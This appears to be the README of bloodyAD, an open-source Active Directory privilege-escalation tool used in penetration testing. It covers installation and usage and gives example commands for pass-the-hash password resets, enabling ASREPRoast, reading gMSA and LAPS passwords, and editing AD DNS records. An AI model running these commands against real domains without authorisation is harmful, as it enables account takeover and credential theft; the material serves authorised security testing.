 > :warning: autobloody has been moved to its own [repo](https://github.com/CravateRouge/autobloody)  

# ![bloodyAD logo](https://repository-images.githubusercontent.com/415977068/9b2fed72-35fb-4faa-a8d3-b120cd3c396f) bloodyAD

`bloodyAD.py` is an Active Directory privilege escalation swiss army knife

## Description

This tool can perform specific LDAP/SAMR calls to a domain controller in order to perform AD privesc.

`bloodyAD` supports authentication using cleartext passwords, pass-the-hash, pass-the-ticket or certificates and binds to LDAP services of a domain controller to perform AD privesc.

It is designed to be used transparently with a SOCKS proxy.

## Installation

First if you run it on Linux, you must have `libkrb5-dev` installed on your OS in order for kerberos to work:
```ps1
# Debian/Ubuntu/Kali
apt-get install libkrb5-dev

# Centos/RHEL
yum install krb5-devel

# Fedora
dnf install krb5-devel

# Arch Linux
pacman -S krb5
```

A python package is available:

```ps1
pip install bloodyAD
bloodyAD --host 172.16.1.15 -d bloody.local -k set password john.doe 'Password123!'
```

Or you can clone the repo:

```ps1
git clone --depth 1 https://github.com/CravateRouge/bloodyAD
pip install .
bloodyAD --host 172.16.1.15 -d bloody.local -k set password john.doe 'Password123!'
```

### Dependencies

- Python 3
- DSinternals
- Impacket
- Ldap3
- Gssapi (linux) or Winkerberos (Windows)

## Usage

Simple usage:

```ps1
bloodyAD --host 172.16.1.15 -d bloody.local -u jane.doe -p :70016778cb0524c799ac25b439bd6a31 set password john.doe 'Password123!'
```

**Note:** You can find more examples on <https://cravaterouge.github.io/> and in the documentation folder of this project

List of all available functions:

```ps1
usage: bloodyAD.py [-h] [-d DOMAIN] [-u USERNAME] [-p PASSWORD] [-k] [-c CERTIFICATE] [-s] [--host HOST] [-v {QUIET,INFO,DEBUG}] {add,get,remove,set} ...

AD Privesc Swiss Army Knife

options:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Domain used for NTLM authentication
  -u USERNAME, --username USERNAME
                        Username used for NTLM authentication
  -p PASSWORD, --password PASSWORD
                        Cleartext password or LMHASH:NTHASH for NTLM authentication
  -k, --kerberos
  -c CERTIFICATE, --certificate CERTIFICATE
                        Certificate authentication, e.g: "path/to/key:path/to/cert"
  -s, --secure          Try to use LDAP over TLS aka LDAPS (default is LDAP)
  --host HOST           Hostname or IP of the DC (ex: my.dc.local or 172.16.1.3)
  -v {QUIET,INFO,DEBUG}, --verbose {QUIET,INFO,DEBUG}
                        Adjust output verbosity

Commands:
  {add,get,remove,set}
    add                 [ADD] function category
    get                 [GET] function category
    remove              [REMOVE] function category
    set                 [SET] function category
```

Help text to use a specific function:

```ps1
[bloodyAD]$ bloodyAD --host 172.16.1.15 -d bloody.local -u jane.doe -p :70016778cb0524c799ac25b439bd6a31 set password -h
usage: bloodyAD.py set password [-h] [--oldpass OLDPASS] target newpass

positional arguments:
  target             sAMAccountName, DN, GUID or SID of the target
  newpass            new password for the target

options:
  -h, --help         show this help message and exit
  --oldpass OLDPASS  old password of the target, mandatory if you don't have "change password" permission on the target (default: None)
  ```

## How it works

bloodyAD communicates with a DC using mainly the LDAP protocol in order to get information or add/modify/delete AD objects. Exchange of sensitive information such as passwords without LDAPS are now supported.

## Useful commands

```ps1
# Get group members
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 get object Users --attr member 

# Get minimum password length policy
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 get object 'DC=bloody,DC=local' --attr minPwdLength

# Get AD functional level
bloodyAD -u Administrator -d bloody -p Password512! --host 192.168.10.2 get object 'DC=bloody,DC=local' --attr msDS-Behavior-Version

# Get all users of the domain
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 get children 'DC=bloody,DC=local' --type user

# Get all computers of the domain
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 get children 'DC=bloody,DC=local' --type computer

# Get all containers of the domain
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 get children 'DC=bloody,DC=local' --type container

# Enable DONT_REQ_PREAUTH for ASREPRoast
bloodyAD -u Administrator -d bloody -p Password512! --host 192.168.10.2 add uac john.doe DONT_REQ_PREAUTH

# Disable ACCOUNTDISABLE
bloodyAD -u Administrator -d bloody -p Password512! --host 192.168.10.2 remove uac john.doe ACCOUNTDISABLE

# Get UserAccountControl flags
bloodyAD -u Administrator -d bloody -p Password512! --host 192.168.10.2 get object john.doe --attr userAccountControl

# Read GMSA account password
bloodyAD -u john.doe -d bloody -p Password512 --host 192.168.10.2 get object 'gmsaAccount$' --attr msDS-ManagedPassword

# Read LAPS password
bloodyAD -u john.doe -d bloody -p Password512 --host 192.168.10.2 get object 'COMPUTER$' --attr ms-Mcs-AdmPwd

# Read quota for adding computer objects to domain
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 get object 'DC=bloody,DC=local' --attr ms-DS-MachineAccountQuota

# Add a new DNS entry
bloodyAD -u stan.dard -p Password123! -d bloody.local --host 192.168.10.2 add dnsRecord my_machine_name 192.168.10.48

# Remove a DNS entry
bloodyAD -u stan.dard -p Password123! -d bloody.local --host 192.168.10.2 remove dnsRecord my_machine_name 192.168.10.48

# Get AD DNS records
bloodyAD -u stan.dard -p Password123! -d bloody.local --host 192.168.10.2 get dnsDump

```

## Acknowledgements
- Thanks to [impacket](https://github.com/fortra/impacket) contributors. [Structures](https://github.com/fortra/impacket/blob/master/impacket/structure.py) and several [LDAP attacks](https://github.com/fortra/impacket/blob/master/impacket/examples/ntlmrelayx/attacks/ldapattack.py) are based on their work.
- Thanks to [@PowerShellMafia](https://github.com/PowerShellMafia) team ([PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)) and their work on AD which inspired this tool.
- Thanks to [@dirkjanm](https://github.com/dirkjanm) ([adidnsdump.py](https://github.com/dirkjanm/adidnsdump)) and ([@Kevin-Robertson](https://github.com/Kevin-Robertson))([Invoke-DNSUpdate.ps1](https://github.com/Kevin-Robertson/Powermad/blob/master/Invoke-DNSUpdate.ps1)) for their work on AD DNS which inspired DNS functionnalities.
- Thanks to [@p0dalirius](https://github.com/p0dalirius/) and his [pydsinternals](https://github.com/p0dalirius/pydsinternals) module which helped to build the shadow credential attack
